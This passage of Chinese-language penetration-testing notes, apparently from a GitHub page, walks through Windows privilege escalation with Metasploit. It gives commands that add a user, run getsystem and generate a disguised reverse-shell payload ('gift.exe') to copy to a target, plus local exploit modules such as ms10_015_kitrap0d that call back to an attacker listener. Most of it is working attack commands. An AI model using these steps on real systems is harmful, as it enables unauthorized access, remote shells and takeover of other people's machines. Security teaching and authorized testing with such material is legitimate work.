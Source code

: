 ```shell
[*] Meterpreter session 2 opened (192.168.122.248:4433 -> 192.168.122.136:41211) at 2022-10-21 22:12:07 +0800
[*] Stopping exploit/multi/handler

```

### 提权 ❖

使用 `net user` 命令创建普通用户：

```
Administrator>net user USERNAME PASSWORD /add
```

Metasploit的 `getsystem` 模块可以帮助我们获取系统的管理员权限。

```
meterpreter > run post/windows/escalate/getsystem
```

以IE“Aurora”漏洞攻击为例，攻击成功后我们只能获取到用户权限：

```shell
meterpreter > getuid
meterpreter > use priv #使用priv扩展
meterpreter > getsystem -h
meterpreter > getsystem
meterpreter > getuid
```

#### 载荷程序

```shell
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx LPORT=xxx -f exe -o gift.exe

msf> use exploit/multi/handler
msf> set PAYLOAD windows/meterpreter/reverse_tcp
msf> set LHOST xxx
msf> set LPORT xxx
msf> exploit

# copy gift.exe to target, and run it as a user.

meterpreter> getuid # a normal user
meterpreter> shell
>^Z # quit shell

meterpreter > use priv
meterpreter > getsystem
```

#### 本地攻击

如果未能通过`getsystem`提权，则可以尝试其他的本地Exploit：

```
msf exploit(ms10_002_aurora) > use exploit/windows/local/
msf exploit(ms10_002_aurora) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > set SESSION 1
msf exploit(ms10_015_kitrap0d) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms10_015_kitrap0d) > set LHOST 192.168.1.161
msf exploit(ms10_015_kitrap0d) > set LPORT 4443
msf exploit(ms10_015_kitrap0d) > show options
msf exploit(ms10_015_kitrap0d) > exploit
```

